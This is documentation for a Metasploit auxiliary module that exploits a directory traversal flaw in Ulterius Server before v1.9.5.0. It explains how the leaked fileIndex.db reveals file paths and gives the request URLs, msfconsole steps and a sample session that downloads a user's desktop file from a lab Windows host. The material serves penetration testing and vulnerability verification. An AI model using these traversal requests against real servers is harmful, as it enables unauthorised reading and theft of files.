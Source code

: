 ## Description

This module exploits a directory traversal vulnerability in [Ulterius Server < v1.9.5.0](https://github.com/Ulterius/server/releases). The directory traversal flaw occurs in Ulterius Server's `HttpServer.Process` function call. While processing file requests, the `HttpServer.Process` function does not validate that the requested file is within the web server's root directory or a subdirectory.

## Vulnerable Application

When requesting a file, a relative or absolute file path is needed so the appropriate request can be generated. Fortunately, Ulterius Server creates a file called `fileIndex.db`, which contains filenames and directories located on the server. By requesting `fileIndex.db` and parsing the retrieved data, absolute file paths can be retrieved for files hosted on the server. Using the information retrieved from parsing `fileIndex.db`, additional requests can be generated to download desired files.

As noted in the [EDB PoC](https://www.exploit-db.com/exploits/43141/), the `fileIndex.db` is usually located at:

`http://ulteriusURL:22006/.../fileIndex.db`

Note: 22006 was the default port after setting up the Ulterius Server.

After retrieving absolute paths for files, the files can be retrieved by sending requests of the form:

`http://ulteriusURL:22006/<DriveLetter>:/<path>/<to>/<file>`

Note: The [EDB PoC](https://www.exploit-db.com/exploits/43141/) used relative paths to download files but absolute paths can be used on Windows-platforms as well, because the `HttpServer.Process` function made use of the [Path.Combine](https://msdn.microsoft.com/en-us/library/fyy7a5kt(v=vs.110).aspx) function.

> If *path2* includes a root, *path2* is returned. 

## Options

**TARGETURI**

This option specifies the absolute or relative path of the file to download. (default: `/…/fileIndex.db`)

Note: If you are using relative paths, use three periods when traversing down a level in the directory structure. If absolute paths are used, make sure to include the drive letter.

## Verification Steps

- [ ] Install Ulterius Server < v1.9.5.0
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/ulterius_file_download`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify loot contains file system paths from remote file system.
- [ ] `set targeturi '/<DriveLetter>:/<path>/<to>/<file>'`
- [ ] `run`
- [ ] Verify contents of file

## Scenarios

### Ulterius Server v1.8.0.0 on Windows 7 SP1 x64.

```
msf5 > use auxiliary/admin/http/ulterius_file_download
msf5 auxiliary(admin/http/ulterius_file_download) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 auxiliary(admin/http/ulterius_file_download) > run

[*] Starting to parse fileIndex.db...
[*] Remote file paths saved in: filepath0
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/ulterius_file_download) > set targeturi '/C:/users/pwnduser/desktop/tmp.txt'
targeturi => /C:/users/pwnduser/desktop/tmp.txt
msf5 auxiliary(admin/http/ulterius_file_download) > run

[*] /C:/users/pwnduser/desktop/tmp.txt
[*] File contents saved: filepath1
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/ulterius_file_download) >
```

